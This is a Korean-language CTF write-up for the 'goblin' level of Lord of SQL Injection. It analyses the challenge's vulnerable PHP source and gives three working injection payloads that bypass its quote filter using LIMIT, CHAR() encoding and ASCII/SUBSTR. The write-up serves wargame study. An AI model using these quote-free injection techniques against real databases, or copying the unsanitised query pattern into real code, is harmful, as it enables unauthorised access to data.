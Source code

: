 # Lord of SQL Injection No.3 - goblin

## 문제 출제 의도

따옴표를 사용하지 않고 원하는 문자열을 SELECT 하도록 SQL을 조작할 수 있는지 확인한다.

## 소스 코드 분석

goblin 문제의 php 소스 코드는 다음과 같다.
```php
<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[no])) exit("No Hack ~_~"); 
  if(preg_match('/\'|\"|\`/i', $_GET[no])) exit("No Quotes ~_~"); 
  $query = "select id from prob_goblin where id='guest' and no={$_GET[no]}"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
  if($result['id'] == 'admin') solve("goblin");
  highlight_file(__FILE__); 
?>
```
-----

```php
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[no])) exit("No Hack ~_~"); 
  if(preg_match('/\'|\"|\`/i', $_GET[no])) exit("No Quotes ~_~"); 
```
* GET방식으로 no를 받고, no에 `prob`, `_`, `.`, `()` 가 들어 있으면 `No Hack ~_~`이 뜨고 문제 풀이에 실패한다.

* 또한, no에 `'`, `"`, \` 가 들어 있으면 `No Quotes ~_~`가 뜨고 문제 풀이에 실패한다.

```php
  $query = "select id from prob_goblin where id='guest' and no={$_GET[no]}"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
  if($result['id'] == 'admin') solve("goblin");
```
* 받은 no가 직접 쿼리에 들어간다. 이것으로 SQL Injection 공격이 가능하다는 것을 알 수 있다.

* 문제 풀이가 성공하는 조건은 '데이터베이스에서 받은 id에 "admin"이라는 값이 들어있음'이다.

-----

## Solution
    
1. LIMIT 구문 이용

    ```
    http://los.eagle-jump.org/goblin_5559aacf2617d21ebb6efe907b7dded8.php?no=-1 or 1=1 limit 1,1-- -
    ```
    ```sql
    select id from prob_goblin where id='guest' and no=-1 or 1=1 limit 1,1-- -
    ```

    LIMIT 구문을 이용한 SQL Injection이 잘 이해가 되지 않으면 [**2번 문제 - Cobolt**](https://gitlab.com/dsm-highschool/sql-injection-writeup/blob/master/12_%EC%9D%B4%EC%9E%AC%EC%84%9D/los_no2_cobolt.md)의 **Solution - 3. LIMIT 구문 이용** 부분을 참고하자.

2. CHAR 함수 및 ASCII 코드 활용

    ```
    http://los.eagle-jump.org/goblin_5559aacf2617d21ebb6efe907b7dded8.php?no=-1 or id=char(97, 100, 109, 105, 110)-- -
    ```
    ```sql
    select id from prob_goblin where id='guest' and no=-1 or id=char(97, 100, 109, 105, 110)-- -
    ```

    이는 ASCII에서 10진수 표기를 문자 표기로 바꿔주는 MySQL 함수인 CHAR를 이용하여 id가 admin인 행을 찾아 선택하도록 만든다.
    
    ASCII에서, 'a'=97, 'd'=100, 'm'=109, 'i'=105, 'n'=110이다.
    
    따라서 이는 $result['id']에 'admin'이 들어가도록 하므로 문제가 풀린다.

3. ASCII, SUBSTR 함수 및 ASCII 코드 활용

    ```
    http://los.eagle-jump.org/goblin_5559aacf2617d21ebb6efe907b7dded8.php?no=-1 or ascii(substr(id, 1, 1))=97-- -
    ```
    ```sql
    select id from prob_goblin where id='guest' and no=-1 or ascii(substr(id, 1, 1))=97-- -
    ```

    이는 ASCII에서 문자 표기자 10진수 표기로 바꿔주는 MySQL 함수인 ASCII를 이용하여 id가 a로 시작하는 행을 찾아 선택하도록 만든다.

    이번에는 운이 좋아 a로 시작하는 첫번째 행이 admin이었지만, 만약 안되면 1번째 글자가 a, 2번째 글자가 d, 3번째 글자가 m, 4번째 글자가 i, 5번째 글자가 n인 행을 찾도록 조작하면 된다.
    
    ASCII에서, 'a'=97이다.
    
    따라서 이는 $result['id']에 'admin'이 들어가도록 하므로 문제가 풀린다.